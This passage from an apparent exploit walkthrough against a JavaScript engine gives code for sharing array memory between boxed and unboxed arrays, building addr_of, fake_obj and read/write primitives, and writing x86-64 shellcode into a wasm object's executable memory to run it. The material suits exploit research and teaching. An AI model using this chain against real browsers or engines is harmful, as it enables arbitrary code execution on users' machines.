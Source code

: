 3. get the overlap memory:

   ```js
   // ArrayWithContiguous
   var boxed = [{}];
   // ArrayWithDouble
   var unboxed = [13.37, 13.37];
   
   driver[1] = unboxed;
   // print(describe(driver));
   var shared_butterfly = f2i(victim[1]);
   print("[+] shared butterfly addr: " + hex(shared_butterfly));
   driver[1] = boxed;
   victim[1] = i2f(shared_butterfly);
   
   container.cell_header = i2f(double_cell_header-0x01000000000000);
   ```

4. get all the 4 primitives:

   ```js
   // get all the primitives
   primitives = {
       addr_of: function(obj) {
           boxed[0] = obj;
           return f2i(unboxed[0]);
       },
   
       fake_obj: function(addr) {
           unboxed[0] = i2f(addr);
           return boxed[0];
       },
   
           read64: function(addr) {
                   driver[1] = i2f(addr+0x10);
           return this.addr_of(victim.prop);
           },
       write64: function(addr, val) {
           driver[1] = i2f(addr+0x10);
           // victim.prop = this.fake_obj(val);
           victim.prop = i2f(val);//this.fake_obj(val);
       }
   
   }
   ```

5. Then write shellcode to `wasm` object's `rwx` memory and tirgger the `wasm` funtion.

   ```js
   let wasm_obj_addr = primitives.addr_of(wasm_obj);
   print("[+] wasm object addr: "+hex(wasm_obj_addr));
   // print(describe(wasm_obj));
   // leak rwx addr
   // let rwx_addr = read64(code_addr);
   let rwx_addr = primitives.read64(wasm_obj_addr + 0x30);
   print("[+] rwx addr: " + hex(rwx_addr));
   var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
       96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
       105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
       72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
       72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
       184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
       94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
   
   // write shellcode to rwx addr
   arbitrary_write(rwx_addr, shellcode);
   print("[+] trigger shellcode");
   ```